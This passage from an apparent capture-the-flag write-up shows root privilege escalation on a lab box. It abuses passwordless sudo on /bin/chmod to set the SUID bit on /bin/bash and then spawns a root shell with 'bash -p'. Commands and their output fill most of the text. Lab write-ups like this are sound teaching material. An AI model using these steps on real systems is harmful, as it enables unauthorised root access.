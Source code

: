 In here, we can see that user `asterisk` is able to **run bunch of commands as `root` without any password**!

For me, I'll choose `/bin/chmod` to escalate our privilege to `root`. This binary can add a SUID sticky bit to a file. **If we add it in `/bin/bash`, we can spawn a root Bash shell**.

```shell
bash-3.2$ sudo /bin/chmod +s /bin/bash
bash-3.2$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 713K Jan 22  2009 /bin/bash
```

```shell
bash-3.2$ /bin/bash -p
bash-3.2# whoami; id; hostname; ip a
root
uid=100(asterisk) gid=101(asterisk) euid=0(root) egid=0(root) groups=101(asterisk)
beep
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast qlen 1000
    link/ether 00:50:56:b9:40:cf brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.7/24 brd 10.10.10.255 scope global eth0
```

I'm now `root`! :D

## Rooted

**root.txt:**
```shell
bash-3.2# cd /root
bash-3.2# cat root.txt
{Redacted}
```
